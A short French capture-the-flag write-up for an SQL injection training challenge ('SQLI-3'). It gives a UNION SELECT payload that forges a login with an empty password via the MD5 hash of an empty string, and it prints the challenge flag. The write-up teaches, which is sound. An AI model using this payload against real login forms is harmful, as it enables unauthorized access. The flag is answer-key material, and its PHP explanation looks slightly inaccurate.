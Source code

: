 # SQLI-3

## Description

Apprendre les injections SQL (3/3).

## Solution

' UNION SELECT '', 'D41D8CD98F00B204E9800998ECF8427E

D41D8CD98F00B204E9800998ECF8427E est égal à strtoupper(bin2hex(md5(""))) en php. On peut donc laisser le mot de passe vide et on respecte la condition de login.

## Flag

FLAG-0783985441fffd91df30f3d4bda79a84

